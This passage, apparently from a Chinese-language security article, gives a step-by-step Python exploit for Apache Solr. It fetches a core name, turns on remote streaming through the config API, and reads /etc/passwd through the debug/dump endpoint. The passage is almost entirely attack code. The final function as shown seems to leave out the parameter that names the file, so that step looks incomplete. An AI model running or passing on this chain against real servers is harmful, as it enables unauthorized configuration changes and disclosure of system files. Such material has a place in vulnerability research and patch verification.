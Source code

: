 **第一步：获取core的信息**  
```
#拼接url然后提取name值
def get_core_name(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    reqs = requests.get(url=core_url,timeout=10)

    try:
        core_name = list(json.loads(reqs.text)["status"])[0]
        return core_name
    except:
        # print ("无法提取")
        sys.exit()

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibu9djmeDh6jY8ChqNwFVwziamQDIjcslTcqm1l0fmcC3s4vO1DfVm9trQ/640?wx_fmt=png&from=appmsg "")  
  
**第二步、依据core_name构造config包**  
```
#构造config包
def enable_remote_streaming(target_url,core_name):
    session = requests.session()
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {"Content-type": "application/json"}
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
    reqs = session.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)

    if "responseHeader" in reqs.text and reqs.status_code == 200:
        print ("存在漏洞")
        return True
    else:
        print ("不存在漏洞")
        return False

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibuohXfBrmomxW9WwTf7TCGEG68XwF9MqaiagruzYnAmVOjLPCmGxPwPSw/640?wx_fmt=png&from=appmsg "")  
  
**第三步：读取文件/etc/passwd**  
```
#构造查看/etc/passwd的包
def read_etc_passwd(target_url,core_name):
    session = requests.session()
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    reqs = session.post(url=vuln_url,headers=headers)

    if reqs.status_code == 200:
        print ("读取成功")
        print (reqs.text)
    else:
        return False

```  
  